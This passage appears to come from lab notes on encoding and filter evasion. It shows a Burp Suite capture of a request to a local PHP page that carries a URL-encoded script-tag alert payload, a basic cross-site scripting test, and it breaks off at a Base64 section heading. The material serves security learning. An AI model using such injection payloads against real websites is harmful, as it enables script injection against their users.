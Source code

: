 `burpsuite` > `Proxy`

`HTTP Request`:
```http
GET /url_encoding_decoding.php?inputText=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E HTTP/1.1 📌
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://127.0.0.1/url_encoding_decoding.php?inputText=%3Cscript%3Ealert%28%22TEST%22%29%3B%3C%2Fscript%3E
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

![Lab - URL Encoding 7](./assets/encoding_filtering_and_evasion_basics_lab_url_encoding_7.png)

### Base64 Encoding

#### Lab Solution
